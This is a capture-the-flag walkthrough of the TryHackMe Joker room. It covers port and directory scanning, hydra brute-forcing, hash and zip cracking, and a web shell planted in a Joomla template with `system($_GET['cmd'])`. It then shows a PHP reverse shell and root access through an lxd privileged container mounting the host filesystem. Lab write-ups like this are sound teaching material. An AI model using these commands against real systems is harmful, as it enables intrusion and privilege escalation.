 # 30 - HA Joker CTF

Room Link --> [https://tryhackme.com/room/jokerctf](https://tryhackme.com/room/jokerctf)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap 10.10.121.217 -sS -Pn -n -p- -T5 -vv

# output
PORT     STATE    SERVICE REASON      VERSION
22/tcp   filtered ssh        no-response
80/tcp   open     http    syn-ack     Apache httpd 2.4.29 ((Ubuntu))
8080/tcp open     http    syn-ack     Apache httpd 2.4.29
```
{% endcode %}

#### Gobuster Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.121.217 -w /usr/share/dirb/wordlists/common.txt -x txt -t 500 2>/dev/null

# outputs
/phpinfo.php         
/secret.txt
```
{% endcode %}

#### Bruteforcing Joker Password

{% code overflow="wrap" lineNumbers="true" %}
```bash
# i used hydra.
hydra -l joker -P /usr/share/wordlists/rockyou.txt -f 10.10.121.217 -s 8080 http-get /

# outputs
[8080][http-get] host: 10.10.121.217   login: joker   password: hannah
```
{% endcode %}

<figure><img src=".gitbook/assets/image (211).png" alt=""><figcaption></figcaption></figure>

We see a Joomla CMS.

#### Enumerating Authenticated Joomla webpage

Navigating to [http://10.10.121.217:8080/robots.txt](http://10.10.121.217:8080/robots.txt)

<figure><img src=".gitbook/assets/image (212).png" alt=""><figcaption></figcaption></figure>

#### Using Nikto Scan

{% code overflow="wrap" lineNumbers="true" %}
```bash
nikto -host 10.10.121.217 -id "joker:hannah" -port 8080

# outputs

```
{% endcode %}

<figure><img src=".gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

There is a "backu.zip" file.

Cracking the Zip file using johnthereaper.

{% code overflow="wrap" lineNumbers="true" %}
```bash
zip2john backup.zip > passwd.zip
john passwd.zip --wordlist=/usr/share/wordlists/rockyou.txt

# ouptput
hannah           (backup.zip)

# to unzip
unzip backup.zip
```
{% endcode %}

There are 2 dirs:

<figure><img src=".gitbook/assets/image (214).png" alt=""><figcaption></figcaption></figure>

We found the superdoper user..

<figure><img src=".gitbook/assets/image (215).png" alt=""><figcaption></figcaption></figure>

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>'Super Duper User','admin','admin@example.com','$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG'
</strong><strong>
</strong><strong># cracking the password.
</strong>john passwd --wordlist=/usr/share/wordlists/rockyou.txt

# outputs
abcd1234         (?)

# we have the login credentials now:
admin : abcd1234
</code></pre>

### Initial Access

#### Joomla RCE

UPloading PHP payload in the admin panel.

Goto `Templates` , select any template (protostar), select the "error.php" page, add `system($_GET['cmd']);` to the page.

<figure><img src=".gitbook/assets/image (217).png" alt=""><figcaption></figcaption></figure>

Navigate to `http://10.10.119.72:8080/templates/protostar/error.php/error.php?cmd=id` - for code execution.

<figure><img src=".gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

We have code execution.

So for easy Reverse shell, i just uploaded the nishang php rev shell to the error.php page and setup nc listener to catch the connection.

<figure><img src=".gitbook/assets/image (219).png" alt=""><figcaption></figcaption></figure>

Then Navigate to `http://10.10.119.72:8080/templates/protostar/error.php/error.php`

<figure><img src=".gitbook/assets/image (220).png" alt=""><figcaption><p>Got shell.</p></figcaption></figure>

The user is in the "lxd" group.

`uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)`

### Priv Esc

#### lxd exploitation

{% code overflow="wrap" lineNumbers="true" %}
```bash
# lets check if there is an image already in the box.
lxc image list
# i added my own image.
```
{% endcode %}

Download image from --> [https://github.com/saghul/lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder)

{% code overflow="wrap" lineNumbers="true" %}
```bash
# enter the below cmds and adjust as necessary.

# 1
# build the image on kali 1st.
./build-alpine

# 2
# Now import the .tar into the target machine.
python -m http.server 80
wget http://<ip>/

# 3
# use any name for alias.
lxc image import alpine-v3.18-x86_64-20231020_0952.tar.gz --alias alpine-v3.3
lxc image list # you should see a new image added in the list.
lxc init alpine-v3.3 ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id # should be root by now.
cd /mnt/root # go here to access root files.
# Done
```
{% endcode %}

<figure><img src=".gitbook/assets/image (221).png" alt=""><figcaption></figcaption></figure>

Done!
